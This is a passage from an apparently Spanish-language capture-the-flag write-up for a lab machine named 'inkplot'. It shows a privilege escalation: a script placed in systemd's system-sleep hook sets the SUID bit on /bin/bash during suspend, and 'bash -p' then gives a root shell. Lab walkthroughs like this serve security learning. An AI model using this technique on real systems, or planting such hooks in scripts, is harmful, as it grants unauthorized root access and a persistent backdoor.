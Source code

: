 custom_script
```sh
#!/bin/bash

case $1 in
    pre)
        chmod +s /bin/bash
        ;;
    post)
        chmod +s /bin/bash
        ;;
esac
```

Tras un tiempo de inactividad el sistema se apaga.

```
╭─pauline@inkplot /usr/lib/systemd/system-sleep 
╰─$ ls -la /bin/bash
-rwxr-xr-x 1 root root 1265648 Apr 23 23:23 /bin/bash
╭─pauline@inkplot /usr/lib/systemd/system-sleep 
╰─$ 
Broadcast message from root@inkplot (Fri 2023-08-18 16:33:36 CEST):

The system will suspend now!
```
(Es posible que necesites reiniciar la máquina en virtualbox para que ssh funcione de nuevo)

Al volver a conectarme, compruebo que se ha ejecutado el script y ahora "bash" tiene permiso SUID.

```
$ ssh pauline@192.168.1.28 -i pauline_rsa
╭─pauline@inkplot ~ 
╰─$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1265648 Apr 23 23:23 /bin/bash
╭─pauline@inkplot ~ 
╰─$ bash -p
bash-5.2# whoami
root
bash-5.2# :)
```

Muchas gracias a **Cromiphi** por esta máquina.
